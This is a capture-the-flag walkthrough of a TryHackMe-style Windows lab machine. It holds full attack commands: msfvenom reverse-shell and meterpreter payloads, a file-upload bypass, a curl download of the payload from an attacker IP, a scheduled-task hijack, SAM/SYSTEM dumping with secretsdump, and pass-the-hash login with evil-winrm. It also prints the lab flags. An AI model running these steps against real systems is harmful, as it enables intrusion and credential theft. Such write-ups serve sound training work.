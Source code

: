 # Windows Machine

## Machine Info





## Ports Scan

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.200.150.151

Nmap scan report for 10.200.150.151
Host is up (0.056s latency).
Not shown: 63869 closed tcp ports (reset), 1651 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8081/tcp  open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
8443/tcp  open  ssl/http      Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



## Breach&#x20;

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>



### Dir/File Enum

Try to find a directory where the CV are uploaded.

{% code overflow="wrap" %}
```
gobuster dir -u http://10.200.150.151:8081/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

An atttacker with access to this directory could read all uploaded CV.



### Bypassing File Upload filter

The page allow a user to upload only PDF file. An atacker can create a .exe payload with msfvenom like this:

{% code overflow="wrap" %}
```bash
msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.250.1.6 LPORT=9009 -f exe -o cv.exe
```
{% endcode %}

Then, rename the file into cv.exe.pdf to bypass the extension filter.

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

When, someone open the file the .exe payload will execute and an attacker will obtain a reverse shell as user which has open the file.

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



### User Flag

As a user we can get the user flag

```
more C:\user.txt

THM{cb7f295d-395a-4df1-9160-3036d89999d7}
```



## Privilege Escalation

### Insecure File Permissions

There are a file named `backup.exe` in the `C:\backup` directory that the `HT` user has Full rights.

```powershell
PS C:\backup> icacls backup.exe
icacls backup.exe
backup.exe NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Administrators:(I)(F)
           BUILTIN\Users:(I)(RX)
           JOBIFY\hr:(I)(F)
```

It's look like a file which run periodically by a Scheduled Task.

Check the Scheduled Task

```powershell
schtasks /query /fo LIST /v

Folder: \
HostName:                             JOBIFY
TaskName:                             \createBackup
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/1/2025 5:52:51 PM
Last Result:                          0
Author:                               JOBIFY\hr
Task To Run:                          C:\backup\backup.exe 
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          superAdmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        On demand only
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

[..snip..]
```

An attacker can replace that executable with a malicious payload.

{% code title="Payload crafting" overflow="wrap" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.250.1.6 LPORT=4444 -f exe  > backup.exe
```
{% endcode %}

```
PS C:\backup> rm backup.exe

PS C:\backup> curl http://10.250.1.6/backup.exe -o backup.exe

PS C:\backup>schtasks /run /tn createBackup
```

When the scheduled task will run, an attacker will obtain a session as `superadmin` user.

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### SeBackupPrivilege

An attacker with a session as Admin user can dump the SAM and SYSTEM file to obtain all local NTLM hash.

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

```
download sam
download system
```

```
impacket-secretsdump -sam sam -system system LOCAL
```

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

And then access through WinRM with the Pass-the-Hash technique.

### Access as Admin via WinRM

```bash
evil-winrm -i 10.200.150.151 -u 'Administrator' -H 'ce34537beb33e22cc4317c06605a5c2c'
```

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>



### Root Flag

```powershell
more C:\Users\Administrator\root.txt

THM{8697b02c-4577-4781-91ba-107d323e49b0}
```
